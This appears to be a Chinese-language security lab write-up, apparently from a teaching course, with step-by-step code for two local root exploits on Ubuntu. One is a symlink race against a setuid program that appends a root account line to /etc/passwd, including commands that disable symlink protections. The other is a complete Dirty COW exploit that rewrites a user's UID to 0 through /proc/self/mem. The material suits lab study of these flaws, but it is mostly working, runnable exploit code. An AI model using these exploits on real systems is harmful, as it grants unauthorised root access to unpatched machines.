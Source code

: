 # Race Condition 实验

## 1. 准备实验程序 (vulp.c)

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

int main()
{
    char* fn = "/tmp/XYZ";
    char buffer[60];
    FILE* fp;

    /* get user input */
    scanf("%50s", buffer);

    if (!access(fn, W_OK)) {
        fp = fopen(fn, "a+");
        if (!fp) {
            perror("Open failed");
            exit(1);
        }
        fwrite("\n", sizeof(char), 1, fp);
        fwrite(buffer, sizeof(char), strlen(buffer), fp);
        fclose(fp);
    } else {
        printf("No permission \n");
    }

    return 0;
}
```

按照如下命令对其进行编译并设置为setuid程序

```bash
gcc vulp.c -o vulp
sudo chown root vulp
sudo chmod 4755 vulp

# 关闭保护措施
# for ubuntu 16.04
sudo sysctl -w fs.protected_symlinks=0
# for ubuntu 12.04
sudo sysctl -w kernel.yama.protected_sticky_symlinks=0
```

## 2. 设置将要添加到/etc/passwd的用户行信息 (passwd_input)

```bash
echo "test:U6aMy0Wojraho:0:0:test:/root:/bin/bash" > passwd_input
```

## 3. 设置攻击进程来不断更改链接的指向 (attack_process.c)

```c
#include <unistd.h>

int main() {
	while(1) {
		unlink("/tmp/XYZ");
		symlink("/dev/null", "/tmp/XYZ");
		usleep(1000);
		
		unlink("/tmp/XYZ");
		symlink("/etc/passwd", "/tmp/XYZ");
		usleep(1000);
	}

	return 0;
}
```

将其编译：`gcc -o attack_process attack_process.c`

## 4. 编写脚本不断触发实验程序，实现race condtion (target_process.sh)

```bash
CHECK_FILE="ls -l /etc/passwd"
old=$($CHECK_FILE)
new=$($CHECK_FILE)
while [ "$old" == "$new" ]  
do
   ./vulp < ./passwd_input
   new=$($CHECK_FILE)
done
echo "STOP... The passwd file has been changed"
```

## 5. 执行攻击

```bash
# 在窗口1执行attach_process来不断变换链接指向
./attack_process

# 在窗口2不断触发实验程序
bash target_process.sh

# 等待几分钟，会出现提示：STOP... The passwd file has been changed

# 查看效果
cat /etc/passwd
```

# Dirty Cow （在Ubuntu 12.04上进行）

## 1. 添加一个测试用户testcow

```bash
sudo adduser testcow
```

## 2. 准备攻击程序

```c
#include <sys/mman.h>
#include <fcntl.h>
#include <pthread.h>
#include <sys/stat.h>
#include <string.h>

void *map;
void *writeThread(void *arg);
void *madviseThread(void *arg);

int main(int argc, char *argv[])
{
  pthread_t pth1,pth2;
  struct stat st;
  int file_size;

  // Open the target file in the read-only mode.
  int f=open("/etc/passwd", O_RDONLY);

  // Map the file to COW memory using MAP_PRIVATE.
  fstat(f, &st);
  file_size = st.st_size;
  map=mmap(NULL, file_size, PROT_READ, MAP_PRIVATE, f, 0);

  // Find the position of the target area
  char *position = strstr(map, "testcow:x:1001");                        

  // We have to do the attack using two threads.
  pthread_create(&pth1, NULL, madviseThread, (void  *)file_size); 
  pthread_create(&pth2, NULL, writeThread, position);             

  // Wait for the threads to finish.
  pthread_join(pth1, NULL);
  pthread_join(pth2, NULL);
  return 0;
}

void *writeThread(void *arg)
{
  char *content= "testcow:x:0000"; 
  off_t offset = (off_t) arg;

  int f=open("/proc/self/mem", O_RDWR);
  while(1) {
    // Move the file pointer to the corresponding position.
    lseek(f, offset, SEEK_SET);
    // Write to the memory.
    write(f, content, strlen(content));
  }
}

void *madviseThread(void *arg)
{
  int file_size = (int) arg;
  while(1){
      madvise(map, file_size, MADV_DONTNEED);
  }
}
```

将其进行编译：`gcc dirty_cow.c -lpthread`生成a.out。

## 3. 执行攻击

```bash
# 执行如下程序几秒后手动ctrl+c结束
./a.out

# 查看结果
cat /etc/passwd
```
